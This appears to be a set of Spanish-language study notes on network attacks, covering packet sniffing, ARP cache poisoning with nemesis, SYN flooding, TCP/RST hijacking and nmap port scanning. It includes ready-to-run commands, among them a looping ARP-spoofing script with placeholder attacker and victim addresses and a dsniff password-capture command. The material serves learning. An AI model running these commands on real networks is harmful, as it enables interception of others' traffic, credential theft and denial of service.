


# Sniffing

## `tcpdump` and other tools

Podemos cambiar la configuración de nuestra tarjeta para que lea tambien paquetes que tienen como destino otras direcciones IP:

```ps
ifconfig eth0

sudo ifconfig eth0 promisc
```

Ahora ya en modo promiscuo, podemos hacer un `tcpdump`:

```ps
sudo tcpdump -l -X 'ip host 192.168.0.118'
```

Hay herramientas especializadas, por ejemplo, en buscar contraseñas entre el payload de los paquetes:

```ps
sudo dsniff -n
```

Más opciones de uso de tcpdump están disponibles [aquí](./tcpdump.md).

## Sniffing with pcap

Podemos usar la librería `pcap` para leer los paquetes. 

```ps
apt install libpcap-dev
```

Por ejemplo con el programa `decode_sniff` inspeccionamos la capa de transporte, networking (IP) y Data Link (Ethernet). Notese como estamos linkando la librería pcap:

```ps
gcc -o decode_sniff decode_sniff.c -lpcap

sudo ./decode_sniff
```

## Active sniffing

Si nuestra red local, LAN, usa un switch, el switch se encarga de enviar los paquetes a las _MAC_ destino, de modo que el trafico en la red se optimiza. El switch contiene una tabla con las IPs y MACs. Cuando falta una entrada, se usa el protocolo _ARP_ (parte de la capa Datalink - Ethernet) para obtener la MAC de una determinada IP. La entrada se mantiene cacheada por un tiempo. En esto escenarios, el modo promiscuo no nos servira de mucho porque los paquetes no llegan a nuestra tarjeta.

Podemos hacer usar una técnica llamada __ARP cache poisoning__ para interceptar el trafico, dentro de la propia LAN. La tecnica consiste en lo siguiente:
- Actores. Supongamos que queremos interceptar el trafico entre la victima, A, y el gateway de la LAN, B
- Enviamos un paquete Reply ARP a A en el que le indicamos que el destino con la IP B, tiene la MAC del Atacante. El paquete tendrá la IP y MAC origen de A
- Enviamos un paquete Reply ARP a B en el que le indicamos que el destino con la IP A, tiene la MAC del Atacante. El paquete tendrá la IP y MAC origen de B

Para hacer esto hemos tenido que usar otra técnica más, el __spoofing__. Con el _spoofing_ lo que hacemos es manipular las IPs informadas en el paquete.

Veamoslo con un ejemplo. Usaremos una herramienta llamada _nemesis_

Hacemos un ping al IP de la victima y al del GW:

```ps
ping -c 1 -w 1 192.168.0.1

ping -c 1 -w 1 192.168.0.118
```

Al hacer estos PINGs se actualiza la tabla interna con los MACs e IPs. Veamos lo que hemos capturado:

```ps
arp -na
```

Con esta instrucción hacemos que se genere un paquete ARP Reply y que se envie al destino. Por ejemplo:

```ps
sudo nemesis arp -v -r -d eth0 -S 192.168.0.1 -D 192.168.0.118 -h 00:00:AD:D1:C7:ED -m 00:C0:F0:79:3D:30 -H 00:00:AD:D1:C7:ED -M 00:C0:F0:79:3D:30
```

Donde:
- h, H sender MAC
- m, M target MAC
- D, target IP
- S, sender IP

Como la cache se actualiza períodicamente, si queremos mantener el ataque en el tiempo tenemos que inyectar paquetes ARP períodicamente. Por ejemplo, cada 10 segundos:

```ps
while true
do
sudo nemesis arp -v -r -d eth0 -S 192.168.0.1 -D 192.168.0.118 -h
00:00:AD:D1:C7:ED -m 00:C0:F0:79:3D:30 -H 00:00:AD:D1:C7:ED -M
00:C0:F0:79:3D:30
sudo nemesis arp -v -r -d eth0 -S 192.168.0.118 -D 192.168.0.1 -h
00:00:AD:D1:C7:ED -m 00:50:18:00:0F:01 -H 00:00:AD:D1:C7:ED -M
00:50:18:00:0F:01
echo "Redirecting..."
sleep 10
done
```

El esquema sería:

```ps
while true
do
sudo nemesis arp -v -r -d eth0 -S IP_GW -D IP_VICTIMA -h MAC_ATACANTE -m MAC_VICTIMA -H MAC_ATACANTE -M MAC_VICTIMA
sudo nemesis arp -v -r -d eth0 -S IP_VICTIMA -D IP_GW -h MAC_ATACANTE -m MAC_GW -H MAC_ATACANTE -M MAC_GW
echo "Redirecting..."
sleep 10
done
```

# Denial of Service

- SYN flooding. Cada petición de conexión, SYN, consume recursos del servidor - se tiene que generar una respuesta SYN-ACK, y esperar a que se reciba un ACK. COn está técnica se proboca la caida del servicio generando peticiones SYN en las que se especifica una direccion IP de origne ficticia - generada al azar, por ejemplo. Para hacer el spoofing de los paquetes podemos usar la librería _libnet-dev_

```ps
apt install libnet-dev
```

El programa `basics` demuestra como hacer este tipo de flooding. Se incluyen otros programas que demuestran como usar esta librería para crear paquetes

- Ping of death. Se aprovecha una vulnerabilidad que consiste en enviar un paquete de ping - icmp - con una payload mayor a 65.536. El ping no tiene payload, pero como parte del protocolo TCPIP, podemos especificar uno. Algunos kernels no soportan recibir un paquete icmp que tiene un tamaño mayor del permitido en la spec TCPIP y hacen un dump
- Teardrop. Algunos kernels no contemplan la posibilidad de que haya un solape en los paquetes y dan dump
- Ping flooding, amplification attacks, bot nets. 

# TCP Hijacking

Con este _hack_ lo que haremos es "secuestrar" una comunicación TCP. Si tenemos una comunicación TCP entres dos sistemas A - cliente - y B - servidor -, el atacante emitira paquetes TCP como si se tratará del cliente, adueñandose de la conexión TCP.

Para poder llevar a cabo un TCP Hijack tenemos que estar en la misma red que A, de forma que podamos inspeccionar (sniffing) los paquetes que envia A, y específicamente ver cual es el valor de las secuencias - ver [tcpip](./tcpip.md).

|Direccion|Paso|Seq A|Ack A|Seq B|Ack B|Notas|
|---|---|---|---|---|---|---|
|A->B|SYN|x|cualquiera|N/A|N/A||
|B->A|SYN-ACK|N/A|N/A|y|x+delta1|delta1 es el largo del mensaje|
|A->B|ACK|x+delta1|y+delta2|N/A|N/A|delta2 es el largo del mensaje|

En este esquema, si somos capaces de generar un paquete desde un sistema atacante - C - con la IPA, IPB, y las secuencias del seq y ack correctas, cuando B reciba ese paquete, no tendrá forma de saber que ha sido creado desde el atacante. Esto convinado con un _ARP poisoning_ haría que estuviesemos impersonando a A en la comunicación.

### RST Hijacking

Se trata de un caso de TCP Hijacking en el que el atacante envia un paquete con el flag _RST_, de modo que el sistema _B_ resetee la conexión. Por ejemplo, supongamos que estamos inspeccionando la comunicación que A y B esta teniendo, y que en un momento dado deseemos censurar la información que B comparte con A. Bastaría con enviar un paquete a B con el RST para que B cortase la comunicación.

El programa `rst_hijack` usamos las librerías __pcap__ y __libnet__ para leer paquetes - _pcap_ - y crear paquetes TCP - _libnet_ - que hijacking la conexión. La librería _libnet_ nos permite crear cualquier tipo de paquete TCP, UDP, ICMP, ARP, IP, ...

```ps
apt install libnet-dev
```

# Port Scanning

Hay varias técnicas para identificar que puertos estan abiertos en un host:
- _SYN scan_. Se envian peticiones de conexión. Si el host devuelve el _SYN-ACK_ tenemos el puerto abierto. Se puede utilizar _nmap_

```ps
sudo nmap -sS 192.168.42.72
```

- _FIN, X-mas, and Null Scans_. Se envia un paquete no coherente al host. Si el host no responde, es que el puerto esta abierto. Si el puerto esta cerrado, el host contestará con un mensaje _RST_. Esta técnica depende de que el kernel implemente la especificación TCP al pie de la letra. Microsoft, por ejemplo, no lo hace, y no contestará con el _RST_

- _Spoofing Decoys_. Se envian peticiones desde una serie de ip que han sido "spoofeadas". Las tienen que existir. Podemos usar _nmap_. En este caso, las siguientes IPs, _192.168.42.10_ y _192.168.42.11_ se usan como señuelo:

```ps
sudo nmap -D 192.168.42.10,192.168.42.11 192.168.42.72
```

- _Idle Scanning_. The attacker needs to find a usable idle host that is not sending or receiving any other network traffic and that has a TCP implementation that produces predictable IP IDs that change by a known increment with each packet. IP IDs are meant to be unique per packet per session, and they are commonly incremented by a fixed amount. Newer operating systems, such as the recent Linux kernel, OpenBSD, and Windows Vista, randomize the IP ID, but older operating systems and hardware (such as printers) typically do not.

	__First, the attacker gets the current IP ID of the idle host__ by contacting it with a SYN packet or an unsolicited SYN/ACK packet and observing the IP
	ID of the response. By repeating this process a few more times, the increment applied to the IP ID with each packet can be determined. 

	__Then, the attacker sends a spoofed SYN packet with the idle host’s IP address to a port on the target machine__. One of two things will happen, depending on whether that port on the victim machine is listening:

	- __If that port is listening, a SYN/ACK packet will be sent back to the idle host__. But since the idle host didn’t actually send out the initial SYN packet, this response appears to be unsolicited to the idle host, and __it responds by sending back an RST packet__.

	

	- __If that port isn’t listening, the target machine doesn’t send a SYN/ACK packet back to the idle host__, so the idle host doesn’t respond. 
	
	
	
	__At this point, the attacker contacts the idle host again to determine how much the IP ID has incremented__:
	- If it has only incremented by one interval, no other packets were sent out by the idle host between the two checks. This implies that __the port on the target machine is closed__. 
	- If the IP ID has incremented by two intervals, one packet,  presumably an RST packet, was sent out by the idle machine between the checks. This implies that __the port on the target machine is open__.

